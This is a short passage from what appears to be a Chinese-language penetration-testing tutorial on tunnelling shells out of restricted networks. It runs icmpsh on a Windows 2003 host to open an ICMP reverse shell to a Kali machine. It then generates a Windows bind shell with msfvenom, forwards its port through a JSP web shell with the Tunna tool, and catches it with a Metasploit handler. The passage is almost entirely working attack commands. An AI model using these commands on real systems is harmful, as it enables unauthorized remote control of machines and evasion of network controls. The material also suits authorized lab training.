 ![](/sourcepictures/2017/11/06/3_proxy/9.jpg)

win03运行：  
```
icmpsh.exe -t kali_ip -d 500 -b 30 -s 128
```
可以看到icmp进行通信的  
![](/sourcepictures/2017/11/06/3_proxy/10.jpg)

####Shell反弹不出的时候   
主要针对：本机kali不是外网或者目标在dmz里面反弹不出shell，可以通过这种直连shell然后再通过http的端口转发到本地的metasploit
```
1、msfvenom -p windows/x64/shell/bind_tcp LPORT=12345 -f exe -o ./shell.exe
先生成一个bind_shell

2、本地利用tunna工具进行端口转发
python proxy.py -u http://lemon.com/conn.jsp  -l 1111 -r 12345 v

3、
use exploit/multi/handler
set payload windows/x64/shell/bind_tcp
set LPORT 1111
set RHOST 127.0.0.1
```